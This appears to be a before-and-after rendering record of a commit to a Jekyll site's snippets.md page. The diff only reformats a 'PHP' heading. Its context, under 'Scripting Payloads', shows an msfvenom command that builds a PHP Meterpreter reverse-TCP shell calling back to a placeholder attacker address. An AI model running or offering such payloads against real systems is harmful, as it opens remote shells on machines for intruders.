

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from snippets.md, in a window 1280 px wide. Shown: the top 728 px of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

````diff
--- a/snippets.md
+++ b/snippets.md
@@ -22,7 +22,7 @@ Once the required values are completed the following command will execute your h
 #### ./ Scripting Payloads
 <b/>
 
-##### PHP
+<b>PHP<b/>
 
 ```bash
 msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
````
